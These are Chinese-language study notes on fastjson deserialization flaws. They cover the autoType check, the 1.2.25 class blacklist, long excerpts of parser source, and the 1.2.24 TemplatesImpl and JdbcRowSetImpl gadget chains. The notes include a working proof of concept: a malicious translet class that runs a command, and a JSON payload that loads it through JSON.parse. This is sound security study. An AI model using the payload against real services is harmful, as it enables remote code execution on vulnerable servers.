#### 1. fastjson 初步了解

​    java 编写的高性能 JSON 库，用于将数据在 JSON 和 java Object 之间转换。

提供了两个接口来实现序列化和反序列化的操作。

- JSON.toJSONString 将 java 对象转换为 json 对象，序列化。

- JSON.parseObject / JSON.parse 将 json 对象转换为 java 对象，反序列化.



```
String jsonString = JSON.toJSONString(student,SerializerFeature.WriteClassName)

### SerializerFeature.WriteClassName，是 JSON.toJSONString() 中的一个设置属性值，设置之后在### 序列化的时候会多写入一个@type，即写上被序列化的类名，type 可以指定反序列化的类，并且调用其
### getter/setter/is 方法
```



out 中有一个字符数组，student 的属性等存储其中。

创建一个序列化器，将 object 序列化，最后调用 toString()。

fastjson 产生的安全问题：fastjson 在反序列化时会去看 @type 中指定的类，然后在反序列化的过程中自动调用一些 setter 和 getter 以及构造函数方法。每个版本都是一样的，不同版本有不同的黑名单，维护在 ParserConfig 中。

满足条件的 setter：

- 非静态函数
- 返回类型为 void 或当前类
- 参数个数为 1 个

满足条件的 getter：

- 非静态方法
- 无参数
- 返回值类型继承自 Collection 或 Map 或 AtomicBoolean 或 AtomicInteger 或 AtomicLong

满足以上条件的 setter getter 会在反序列化的过程中调用。

##### 1.2.24 版本没有黑名单，没有 checkAutoType ，autoType 默认 True。

##### 1.2.25 版本黑名单如下，autoType 默认 false。

```
[bsh, com.mchange, com.sun., java.lang.Thread, java.net.Socket, java.rmi, javax.xml, org.apache.bcel, org.apache.commons.beanutils, org.apache.commons.collections.Transformer, org.apache.commons.collections.functors, org.apache.commons.collections4.comparators, org.apache.commons.fileupload, org.apache.myfaces.context.servlet, org.apache.tomcat, org.apache.wicket.util, org.codehaus.groovy.runtime, org.hibernate, org.jboss, org.mozilla.javascript, org.python.core, org.springframework]

```

1.2.42 开始黑名单变成 hash 值，目前有一些跑出来的类 [LeadroyaL/fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

**checkAutoType** 

```
public Class<?> checkAutoType(String typeName, Class<?> expectClass) {
    if (typeName == null) {
        return null;
    } else {
        String className = typeName.replace('$', '.');
        # 如果开启了 autoTypeSupport 会检查 typeName 是否在白名单，如果在直接 loadClass，不在进行其他处理。
        if (this.autoTypeSupport || expectClass != null) {
        
            for(int i = 0; i < this.acceptList.length; ++i) {
                String accept = this.acceptList[i];
                if (className.startsWith(accept)) {
                    return TypeUtils.loadClass(typeName, this.defaultClassLoader);
                }
            }
			# 如果不在白名单，会检查 typeName 是否在黑名单，如果在抛出异常
            for(int i = 0; i < this.denyList.length; ++i) {
                String deny = this.denyList[i];
                if (className.startsWith(deny)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }
        
		# 如果不在黑白名单，或者 autoTypeSupport 没开启，则去 Mapping 缓存找这个类
        Class<?> clazz = TypeUtils.getClassFromMapping(typeName);
        # 如果 Mapping 缓存没用，去反序列化器缓存中找
        if (clazz == null) {
            clazz = this.deserializers.findClass(typeName);
        }
		# 如果上述两种方式找到了，并且指定了 expectClass ，检查是不是其子类，不是则抛出异常。
        if (clazz != null) {
            if (expectClass != null && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            } else {
                return clazz;
            }
        } else {
        # 如果没有开启 autoTypeSupport ，则先经过黑名单过滤，然后在经过白名单，在白名单就 loadClass
            if (!this.autoTypeSupport) {
                for(int i = 0; i < this.denyList.length; ++i) {
                    String deny = this.denyList[i];
                    if (className.startsWith(deny)) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }
                }

                for(int i = 0; i < this.acceptList.length; ++i) {
                    String accept = this.acceptList[i];
                    if (className.startsWith(accept)) {
                        if (clazz == null) {
                            clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
                        }

                        if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                        }

                        return clazz;
                    }
                }
            }
			# 如果不在黑白名单，也不在缓存中，则直接 loadClass
            if (clazz == null) {
                clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
            }

            if (clazz != null) {
            # 如果类上有 @JSONType 注解，直接放行
                if (TypeUtils.getAnnotation(clazz, JSONType.class) != null) {
                    return clazz;
                }
				// 拦截高危：ClassLoader 和 DataSource
                if (ClassLoader.class.isAssignableFrom(clazz) || DataSource.class.isAssignableFrom(clazz)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                if (expectClass != null) {
                    if (expectClass.isAssignableFrom(clazz)) {
                        return clazz;
                    }

                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }

                JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, this.propertyNamingStrategy);
                if (beanInfo.creatorConstructor != null && this.autoTypeSupport) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }

            int mask = Feature.SupportAutoType.mask;
            boolean autoTypeSupport = this.autoTypeSupport || (features & mask) != 0 || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;
            # 最后的检查，所以需要提前设置 autoTypeSupport 为 true
            if (!autoTypeSupport) {
                throw new JSONException("autoType is not support. " + typeName);
            } else {
                return clazz;
            }
        }
    }
}
```


#### 2. fastjson 1.2.24 版本下的链子

TODO

##### 1. 基于 TemplatesImpl 的链子

这条链子基于 templatesimpl 加载字节码，上层是调用了 newInstance() 方法



再往上是 getTransletInstance 方法，是一个 getter 方法。

要加载的恶意类

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class templatesBytes extends AbstractTranslet {
    public void transform(DOM dom, SerializationHandler[] handlers) throws TransletException {
        // 方法实现

    }
    public void transform(DOM dom, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
        // 方法实现
    }
    public templatesBytes() throws IOException {
        super();
        Runtime.getRuntime().exec("calc");
    }

}
```

尝试使用 getTransletInstance() 去触发，事后发现这个不会被触发，不满足上述 getter 的条件，继续找了一个  getoutputproperties，提前编译字节码 `javac evil.java`

修改为

```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;


public class TemplateImplPoc {
    public static void main(String[] args) throws IOException {

        byte[] bytecodes = Files.readAllBytes(Paths.get("D:\\tools_D\\java\\java_learn\\fastjson\\src\\main\\java\\evil.class"));

        String base64Bytecodes = java.util.Base64.getEncoder().encodeToString(bytecodes);

        String payload = String.format(
                "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
                        "\"_name\":\"evil\"," +
                        "\"_tfactory\":{}," +
                        "\"_bytecodes\":[\"%s\"],"+"\"_outputProperties\":{}"+"}", base64Bytecodes);

        System.out.println("payload as follow:\n" + payload);
        JSON.parse(payload, Feature.SupportNonPublicField);
    }
}

```

调试一遍



一直跟进到这里，新建一个 JSONObject 对象，查看是否保持字段顺序，继续跟进



JSONObject 就是一个 HashMap。

调用栈




需要这个参数 `Feature.SupportNonPublicField` 所以限制会比 jdbc 那个链子限制大一些

##### 2. 基于 JdbcRowSetImpl 的链子

基于 RMI 利用的 JDK 版本 ≤ 6u141、7u131、8u121，基于 LDAP 利用的 JDK 版本 ≤ 6u211、7u201、8u191。



调用了 lookup() 方法，可以打 jndi+ldap，rmi


```
public DefaultJSONParser(final Object input, final JSONLexer lexer, final ParserConfig config){
    this.lexer = lexer;
    this.input = input;
    this.config = config;
    this.symbolTable = config.symbolTable;

    int ch = lexer.getCurrent();
    if (ch == '{') {
        lexer.next();
        ((JSONLexerBase) lexer).token = JSONToken.LBRACE;
    } else if (ch == '[') {
        lexer.next();
        ((JSONLexerBase) lexer).token = JSONToken.LBRACKET;
    } else {
        lexer.nextToken(); // prime the pump
    }
}
```

对 { [ 做额外处理避免了开销大的 nextToken()

```
public final void nextToken() {
    sp = 0;

    for (;;) {
        pos = bp;

        if (ch == '/') {
            skipComment();
            continue;
        }

        if (ch == '"') {
            scanString();
            return;
        }

        if (ch == ',') {
            next();
            token = COMMA;
            return;
        }

        if (ch >= '0' && ch <= '9') {
            scanNumber();
            return;
        }

        if (ch == '-') {
            scanNumber();
            return;
        }

        switch (ch) {
            case '\'':
                if (!isEnabled(Feature.AllowSingleQuotes)) {
                    throw new JSONException("Feature.AllowSingleQuotes is false");
                }
                scanStringSingleQuote();
                return;
            case ' ':
            case '\t':
            case '\b':
            case '\f':
            case '\n':
            case '\r':
                next();
                break;
            case 't': // true
                scanTrue();
                return;
            case 'f': // false
                scanFalse();
                return;
            case 'n': // new,null
                scanNullOrNew();
                return;
            case 'T':
            case 'N': // NULL
            case 'S':
            case 'u': // undefined
                scanIdent();
                return;
            case '(':
                next();
                token = LPAREN;
                return;
            case ')':
                next();
                token = RPAREN;
                return;
            case '[':
                next();
                token = LBRACKET;
                return;
            case ']':
                next();
                token = RBRACKET;
                return;
            case '{':
                next();
                token = LBRACE;
                return;
            case '}':
                next();
                token = RBRACE;
                return;
            case ':':
                next();
                token = COLON;
                return;
            default:
                if (isEOF()) { // JLS
                    if (token == EOF) {
                        throw new JSONException("EOF error");
                    }

                    token = EOF;
                    pos = bp = eofPos;
                } else {
                    if (ch <= 31 || ch == 127) {
                        next();
                        break;
                    }
                    lexError("illegal.char", String.valueOf((int) ch));
                    next();
                }

                return;
        }
    }

}
```

拿到一个起始的 token 然后跟进到 parse()，根据 token 判断走什么

```
public Object parse(Object fieldName) {
    final JSONLexer lexer = this.lexer;
    switch (lexer.token()) {
        case SET:
            lexer.nextToken();
            HashSet<Object> set = new HashSet<Object>();
            parseArray(set, fieldName);
            return set;
        case TREE_SET:
            lexer.nextToken();
            TreeSet<Object> treeSet = new TreeSet<Object>();
            parseArray(treeSet, fieldName);
            return treeSet;
        case LBRACKET:
            JSONArray array = new JSONArray();
            parseArray(array, fieldName);
            if (lexer.isEnabled(Feature.UseObjectArray)) {
                return array.toArray();
            }
            return array;
        case LBRACE:
            JSONObject object = new JSONObject(lexer.isEnabled(Feature.OrderedField));
            return parseObject(object, fieldName);
        case LITERAL_INT:
            Number intValue = lexer.integerValue();
            lexer.nextToken();
            return intValue;
        case LITERAL_FLOAT:
            Object value = lexer.decimalValue(lexer.isEnabled(Feature.UseBigDecimal));
            lexer.nextToken();
            return value;
        case LITERAL_STRING:
            String stringLiteral = lexer.stringVal();
            lexer.nextToken(JSONToken.COMMA);

            if (lexer.isEnabled(Feature.AllowISO8601DateFormat)) {
                JSONScanner iso8601Lexer = new JSONScanner(stringLiteral);
                try {
                    if (iso8601Lexer.scanISO8601DateIfMatch()) {
                        return iso8601Lexer.getCalendar().getTime();
                    }
                } finally {
                    iso8601Lexer.close();
                }
            }

            return stringLiteral;
        case NULL:
            lexer.nextToken();
            return null;
        case UNDEFINED:
            lexer.nextToken();
            return null;
        case TRUE:
            lexer.nextToken();
            return Boolean.TRUE;
        case FALSE:
            lexer.nextToken();
            return Boolean.FALSE;
        case NEW:
            lexer.nextToken(JSONToken.IDENTIFIER);

            if (lexer.token() != JSONToken.IDENTIFIER) {
                throw new JSONException("syntax error");
            }
            lexer.nextToken(JSONToken.LPAREN);

            accept(JSONToken.LPAREN);
            long time = ((Number) lexer.integerValue()).longValue();
            accept(JSONToken.LITERAL_INT);

            accept(JSONToken.RPAREN);

            return new Date(time);
        case EOF:
            if (lexer.isBlankInput()) {
                return null;
            }
            throw new JSONException("unterminated json string, " + lexer.info());
        case ERROR:
        default:
            throw new JSONException("syntax error, " + lexer.info());
    }
}
```



然后跟进 parseObject()

```
public final Object parseObject(final Map object, Object fieldName) {
    final JSONLexer lexer = this.lexer;

    if (lexer.token() == JSONToken.NULL) {
        lexer.nextToken();
        return null;
    }

    if (lexer.token() == JSONToken.RBRACE) {
        lexer.nextToken();
        return object;
    }

    if (lexer.token() != JSONToken.LBRACE && lexer.token() != JSONToken.COMMA) {
        throw new JSONException("syntax error, expect {, actual " + lexer.tokenName() + ", " + lexer.info());
    }

   ParseContext context = this.context;
    try {
        boolean setContextFlag = false;
        for (;;) {
            lexer.skipWhitespace();
            char ch = lexer.getCurrent();
            if (lexer.isEnabled(Feature.AllowArbitraryCommas)) {
                while (ch == ',') {
                    lexer.next();
                    lexer.skipWhitespace();
                    ch = lexer.getCurrent();
                }
            }

            boolean isObjectKey = false;
            Object key;
            if (ch == '"') {
                key = lexer.scanSymbol(symbolTable, '"');
                lexer.skipWhitespace();
                ch = lexer.getCurrent();
                if (ch != ':') {
                    throw new JSONException("expect ':' at " + lexer.pos() + ", name " + key);
                }
            } else if (ch == '}') {
                lexer.next();
                lexer.resetStringPosition();
                lexer.nextToken();

                if (!setContextFlag) {
                    if (this.context != null && fieldName == this.context.fieldName && object == this.context.object) {
                        context = this.context;
                    } else {
                        ParseContext contextR = setContext(object, fieldName);
                        if (context == null) {
                            context = contextR;
                        }
                        setContextFlag = true;
                    }
                }

                return object;
            } else if (ch == '\'') {
                if (!lexer.isEnabled(Feature.AllowSingleQuotes)) {
                    throw new JSONException("syntax error");
                }

                key = lexer.scanSymbol(symbolTable, '\'');
                lexer.skipWhitespace();
                ch = lexer.getCurrent();
                if (ch != ':') {
                    throw new JSONException("expect ':' at " + lexer.pos());
                }
            } else if (ch == EOI) {
                throw new JSONException("syntax error");
            } else if (ch == ',') {
                throw new JSONException("syntax error");
            } else if ((ch >= '0' && ch <= '9') || ch == '-') {
                lexer.resetStringPosition();
                lexer.scanNumber();
                try {
                if (lexer.token() == JSONToken.LITERAL_INT) {
                    key = lexer.integerValue();
                } else {
                    key = lexer.decimalValue(true);
                }
                } catch (NumberFormatException e) {
                    throw new JSONException("parse number key error" + lexer.info());
                }
                ch = lexer.getCurrent();
                if (ch != ':') {
                    throw new JSONException("parse number key error" + lexer.info());
                }
            } else if (ch == '{' || ch == '[') {
                lexer.nextToken();
                key = parse();
                isObjectKey = true;
            } else {
                if (!lexer.isEnabled(Feature.AllowUnQuotedFieldNames)) {
                    throw new JSONException("syntax error");
                }

                key = lexer.scanSymbolUnQuoted(symbolTable);
                lexer.skipWhitespace();
                ch = lexer.getCurrent();
                if (ch != ':') {
                    throw new JSONException("expect ':' at " + lexer.pos() + ", actual " + ch);
                }
            }

            if (!isObjectKey) {
                lexer.next();
                lexer.skipWhitespace();
            }

            ch = lexer.getCurrent();

            lexer.resetStringPosition();

            if (key == JSON.DEFAULT_TYPE_KEY && !lexer.isEnabled(Feature.DisableSpecialKeyDetect)) {
                String typeName = lexer.scanSymbol(symbolTable, '"');
                Class<?> clazz = TypeUtils.loadClass(typeName, config.getDefaultClassLoader());

                if (clazz == null) {
                    object.put(JSON.DEFAULT_TYPE_KEY, typeName);
                    continue;
                }

                lexer.nextToken(JSONToken.COMMA);
                if (lexer.token() == JSONToken.RBRACE) {
                    lexer.nextToken(JSONToken.COMMA);
                    try {
                        Object instance = null;
                        ObjectDeserializer deserializer = this.config.getDeserializer(clazz);
                        if (deserializer instanceof JavaBeanDeserializer) {
                            instance = ((JavaBeanDeserializer) deserializer).createInstance(this, clazz);
                        }

                        if (instance == null) {
                            if (clazz == Cloneable.class) {
                                instance = new HashMap();
                            } else if ("java.util.Collections$EmptyMap".equals(typeName)) {
                                instance = Collections.emptyMap();
                            } else {
                                instance = clazz.newInstance();
                            }
                        }

                        return instance;
                    } catch (Exception e) {
                        throw new JSONException("create instance error", e);
                    }
                }

                this.setResolveStatus(TypeNameRedirect);

                if (this.context != null && !(fieldName instanceof Integer)) {
                    this.popContext();
                }

                if (object.size() > 0) {
                    Object newObj = TypeUtils.cast(object, clazz, this.config);
                    this.parseObject(newObj);
                    return newObj;
                }

                ObjectDeserializer deserializer = config.getDeserializer(clazz);
                return deserializer.deserialze(this, clazz, fieldName);
            }

            if (key == "$ref" && !lexer.isEnabled(Feature.DisableSpecialKeyDetect)) {
                lexer.nextToken(JSONToken.LITERAL_STRING);
                if (lexer.token() == JSONToken.LITERAL_STRING) {
                    String ref = lexer.stringVal();
                    lexer.nextToken(JSONToken.RBRACE);

                    Object refValue = null;
                    if ("@".equals(ref)) {
                        if (this.context != null) {
                            ParseContext thisContext = this.context;
                            Object thisObj = thisContext.object;
                            if (thisObj instanceof Object[] || thisObj instanceof Collection<?>) {
                                refValue = thisObj;
                            } else if (thisContext.parent != null) {
                                refValue = thisContext.parent.object;
                            }
                        }
                    } else if ("..".equals(ref)) {
                        if (context.object != null) {
                            refValue = context.object;
                        } else {
                            addResolveTask(new ResolveTask(context, ref));
                            setResolveStatus(DefaultJSONParser.NeedToResolve);
                        }
                    } else if ("$".equals(ref)) {
                        ParseContext rootContext = context;
                        while (rootContext.parent != null) {
                            rootContext = rootContext.parent;
                        }

                        if (rootContext.object != null) {
                            refValue = rootContext.object;
                        } else {
                            addResolveTask(new ResolveTask(rootContext, ref));
                            setResolveStatus(DefaultJSONParser.NeedToResolve);
                        }
                    } else {
                        addResolveTask(new ResolveTask(context, ref));
                        setResolveStatus(DefaultJSONParser.NeedToResolve);
                    }

                    if (lexer.token() != JSONToken.RBRACE) {
                        throw new JSONException("syntax error");
                    }
                    lexer.nextToken(JSONToken.COMMA);

                    return refValue;
                } else {
                    throw new JSONException("illegal ref, " + JSONToken.name(lexer.token()));
                }
            }

            if (!setContextFlag) {
                if (this.context != null && fieldName == this.context.fieldName && object == this.context.object) {
                    context = this.context;
                } else {
                    ParseContext contextR = setContext(object, fieldName);
                    if (context == null) {
                        context = contextR;
                    }
                    setContextFlag = true;
                }
            }

            if (object.getClass() == JSONObject.class) {
                key = (key == null) ? "null" : key.toString();
            }

            Object value;
            if (ch == '"') {
                lexer.scanString();
                String strValue = lexer.stringVal();
                value = strValue;

                if (lexer.isEnabled(Feature.AllowISO8601DateFormat)) {
                    JSONScanner iso8601Lexer = new JSONScanner(strValue);
                    if (iso8601Lexer.scanISO8601DateIfMatch()) {
                        value = iso8601Lexer.getCalendar().getTime();
                    }
                    iso8601Lexer.close();
                }

                object.put(key, value);
            } else if (ch >= '0' && ch <= '9' || ch == '-') {
                lexer.scanNumber();
                if (lexer.token() == JSONToken.LITERAL_INT) {
                    value = lexer.integerValue();
                } else {
                    value = lexer.decimalValue(lexer.isEnabled(Feature.UseBigDecimal));
                }

                object.put(key, value);
            } else if (ch == '[') { // 减少嵌套，兼容android
                lexer.nextToken();

                JSONArray list = new JSONArray();

                final boolean parentIsArray = fieldName != null && fieldName.getClass() == Integer.class;
//                    if (!parentIsArray) {
//                        this.setContext(context);
//                    }
                if (fieldName == null) {
                    this.setContext(context);
                }

                this.parseArray(list, key);

                if (lexer.isEnabled(Feature.UseObjectArray)) {
                    value = list.toArray();
                } else {
                    value = list;
                }
                object.put(key, value);

                if (lexer.token() == JSONToken.RBRACE) {
                    lexer.nextToken();
                    return object;
                } else if (lexer.token() == JSONToken.COMMA) {
                    continue;
                } else {
                    throw new JSONException("syntax error");
                }
            } else if (ch == '{') { // 减少嵌套，兼容android
                lexer.nextToken();

                final boolean parentIsArray = fieldName != null && fieldName.getClass() == Integer.class;

                JSONObject input = new JSONObject(lexer.isEnabled(Feature.OrderedField));
                ParseContext ctxLocal = null;

                if (!parentIsArray) {
                    ctxLocal = setContext(context, input, key);
                }

                Object obj = null;
                boolean objParsed = false;
                if (fieldTypeResolver != null) {
                    String resolveFieldName = key != null ? key.toString() : null;
                    Type fieldType = fieldTypeResolver.resolve(object, resolveFieldName);
                    if (fieldType != null) {
                        ObjectDeserializer fieldDeser = config.getDeserializer(fieldType);
                        obj = fieldDeser.deserialze(this, fieldType, key);
                        objParsed = true;
                    }
                }
                if (!objParsed) {
                    obj = this.parseObject(input, key);
                }

                if (ctxLocal != null && input != obj) {
                    ctxLocal.object = object;
                }

                checkMapResolve(object, key.toString());

                if (object.getClass() == JSONObject.class) {
                    object.put(key.toString(), obj);
                } else {
                    object.put(key, obj);
                }

                if (parentIsArray) {
                    //setContext(context, obj, key);
                    setContext(obj, key);
                }

                if (lexer.token() == JSONToken.RBRACE) {
                    lexer.nextToken();

                    setContext(context);
                    return object;
                } else if (lexer.token() == JSONToken.COMMA) {
                    if (parentIsArray) {
                        this.popContext();
                    } else {
                        this.setContext(context);
                    }
                    continue;
                } else {
                    throw new JSONException("syntax error, " + lexer.tokenName());
                }
            } else {
                lexer.nextToken();
                value = parse();

                if (object.getClass() == JSONObject.class) {
                    key = key.toString();
                }
                object.put(key, value);

                if (lexer.token() == JSONToken.RBRACE) {
                    lexer.nextToken();
                    return object;
                } else if (lexer.token() == JSONToken.COMMA) {
                    continue;
                } else {
                    throw new JSONException("syntax error, position at " + lexer.pos() + ", name " + key);
                }
            }

            lexer.skipWhitespace();
            ch = lexer.getCurrent();
            if (ch == ',') {
                lexer.next();
                continue;
            } else if (ch == '}') {
                lexer.next();
                lexer.resetStringPosition();
                lexer.nextToken();

                // this.setContext(object, fieldName);
                this.setContext(value, key);

                return object;
            } else {
                throw new JSONException("syntax error, position at " + lexer.pos() + ", name " + key);
            }

        }
    } finally {
        this.setContext(context);
    }

}
```

关键部分是

```java
if (key == JSON.DEFAULT_TYPE_KEY && !lexer.isEnabled(Feature.DisableSpecialKeyDetect)) {
    String typeName = lexer.scanSymbol(symbolTable, '"');
    Class<?> clazz = TypeUtils.loadClass(typeName, config.getDefaultClassLoader());

    if (clazz == null) {
        object.put(JSON.DEFAULT_TYPE_KEY, typeName);
        continue;
    }

    lexer.nextToken(JSONToken.COMMA);
    if (lexer.token() == JSONToken.RBRACE) {
        lexer.nextToken(JSONToken.COMMA);
        try {
            Object instance = null;
            ObjectDeserializer deserializer = this.config.getDeserializer(clazz);
            if (deserializer instanceof JavaBeanDeserializer) {
                instance = ((JavaBeanDeserializer) deserializer).createInstance(this, clazz);
            }

            if (instance == null) {
                if (clazz == Cloneable.class) {
                    instance = new HashMap();
                } else if ("java.util.Collections$EmptyMap".equals(typeName)) {
                    instance = Collections.emptyMap();
                } else {
                    instance = clazz.newInstance();
                }
            }

            return instance;
```

调用 scanSymbol() 获取键值 typeName ，然后 loadClass 当前 @type 指定的类。

最后在 368 行进入 deserialize() 方法

```
ObjectDeserializer deserializer = config.getDeserializer(clazz);
return deserializer.deserialze(this, clazz, fieldName);
```



这个调用栈看不到细节，暂时先去看下一个了，


跟进 deserialize()



这里的 Object 是 JdbcRowSetimpl,往下就是 setValue 赋值

因为 key 是 AutoCommit value 是 true ，


跟进到这就是调用了  setAutoCommit(true),下面就是 jdbcRowSetImpl 的了。埋坑，红线圈起来的调用栈，有的不可见，有的贼长，因为在家里面事情多一些，没有大块时间能看看，等回学校仔细研究研究看看。（不知道为啥有 setValue 就能调用 `@type`值的对象的 set`key` 方法）。

